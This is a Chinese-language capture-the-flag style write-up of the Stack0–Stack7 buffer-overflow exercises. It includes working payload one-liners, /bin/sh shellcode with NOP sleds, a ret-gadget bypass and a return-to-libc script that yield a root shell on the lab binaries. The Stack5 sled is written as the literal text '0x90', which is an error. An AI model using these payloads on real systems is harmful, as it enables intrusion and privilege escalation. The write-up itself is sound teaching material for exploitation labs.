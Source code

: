 
## Stack0

先蓋 64 個字

再蓋下去就是 modified (目標)

這題只要讓 modified != 0

所以隨便蓋就好

`python -c "print 'A'*64+'whatever'" | ./stack0`

## Stack1

這題 modified 和 buffer 的相對距離一樣是 64 個字

但是要把 modified 變成 0x61626364 (小心 little endian)

注意 input 是從 argv 參數進來的 (我用 xargs 把 python 產生的字給 stack1 當參數)

`python -c "print 'A'*64+'dcba'" | xargs ./stack1`

## Stack2

這題也一樣

不過 input 變成從 GREENIE(環境變數) 拿值進來

```
GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'")
export GREENIE
./stack2
```

## Stack 3

這題要把 fp (function pointer) 改成 win 這個函式的位置

offset (buffer 和 fp 的相對距離) 也一樣是 64 bytes (也就是先蓋 64 個字之後就蓋到目標 fp 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x8048424

`python -c "print 'A'*64+'\x24\x84\x04\x08'" | ./stack3`

## Stack4

這題要把 stack 上的 return address 改成 win 這個函式的位置

offset (buffer 和 return address 的相對距離) 是 76 bytes (也就是先蓋 64 個字之後就蓋到目標 return address 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x80483f4

`python -c "print 'A'*76+'\xf4\x83\x04\x08'" | ./stack4`

## Stack5

這題要把 shellcode 塞到 stack 上執行囉~(興奮XD)

首先正確的蓋到 return_address (讓他 return 到 stack 後面一點的位置)

再建一個 nop 通道讓他滑到執行 shellcode

然後當然也要把 shell code 放到 stack 上

```python
import struct

padding = 'A'*76
return_address = struct.pack("I",0xbffff78c+50)
slide_path = '0x90'*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
print padding + return_address + slide_path + shell_code
```

`(python exploit.py ; cat ) | ./stack5`

拿到 sh 了而且還是 root 的權限 (我們原本是 user 的權限)

## Stack6

這題和上一題差不多只要我們能 return 到我們塞的 shellcode 就好

可是多了這行 `if((ret & 0xbf000000) == 0xbf000000)` ( 如果成立就直接 exit )

而 0xbf 開頭的位址就包含了我們能控制的所有 stack

#### 作法一 : 

我們在 stack 上把 return address 和他的下一個位址改成 `ret` 那行 code 的位址和我們真正要 return 的位址

所以程式檢查 return address 是不是 0xbf 開頭 -> 當然不是因為現在的 return address 是 `ret` 那行 code 的位址

然後執行到 `ret` 時就會先 return 到 `ret` 那行 code ( 也就是再 return 一次 )

所以就會抓 stack 上面下一個值 return 到我們真正要 return 的位址 -> BINGO

```python
import struct

padding = "A"*80
ret_gadget = struct.pack("I",0x80484f9)
return_address = struct.pack("I",0xbffff78c+30)
nop_slide = "\x90"*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + ret_gadget + return_address + nop_slide + shell_code
```

`(python exploit.py ; cat ) | ./stack6`

#### 作法二 : 

return to libc 的 system 函式並傳遞 "/bin/sh" 的參數進去

從 return address 開始蓋

蓋 libc 中 system 這個 function 的位址

蓋 system call 完要 return 的 address

蓋 "/bin/sh" 這個參數 ( 用 linux 指令 strings 去找 libc 裡面這個字串的位址 )

```python
import struct

padding = "A"*80
system = struct.pack("I",0xb7ecffb0)
return_after_system = "AAAA"
bin_sh = struct.pack("I",0xb7fb63bf)

print padding + system + return_after_system + bin_sh
```

`(python exploit2.py ; cat ) | ./stack6`

## Stack7

這次不給跳到 0xb 開頭的位址 ( Stack6 的作法二不能用了 )

和 Stack6 的作法一一樣先塞個 gadget ( 0x80 開頭 )

注意位址要再用 gdb 找一次喔

```python
import struct

padding = "A"*80
ret_gadget = struct.pack("I",0x8048544)
return_address = struct.pack("I",0xbffff77c+50)
nop_slide = "\x90"*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + ret_gadget + return_address + nop_slide + shell_code
```

`(python exploit.py ; cat ) | ./stack7`
